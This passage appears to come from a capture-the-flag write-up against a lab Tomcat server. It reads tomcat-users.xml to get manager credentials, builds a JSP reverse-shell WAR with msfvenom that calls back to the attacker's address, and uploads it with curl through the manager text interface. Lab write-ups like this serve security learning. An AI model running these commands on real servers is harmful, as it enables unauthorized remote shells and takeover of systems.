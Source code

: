 ```text
/usr/share/tomcat9/etc/tomcat-users.xml
```

Use the above location to output the content of the file.

![Image for post](../images/max/2538/1*NCz6J7-aqJFlV98_PoLNJw.png)

As can be seen in the above figure, there’s a user with the username “tomcat” and the password “$3cureP4s5w0rd123!”. The user also has the roles “admin-gui,manager-script”. Looking at the tomcat documentation, the following are the descriptions of the roles:

* **admin-gui:** gives the user the ability to configure the Host Manager application using the graphical web interface.
* **manager-script:** gives the user the ability to configure the Manager application using the text interface instead of the graphical web interface.

Therefore, if we try to log into the manager interface using the GUI, it won’t work. Instead, we’ll have to do it using the command line.

Before we do that, let’s first generate a war file that contains a reverse shell.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.12 LPORT=53 -f war > rkhal101.war
```

Next, use curl to upload the war file to the tomcat manager interface.

```text
curl -u "tomcat:\$3cureP4s5w0rd123!" --upload-file rkhal101.war http://10.10.10.194:8080/manager/text/deploy?path=/rkhal101
```

* **-u:** username:password
* **— upload-file:** the path to the file to upload
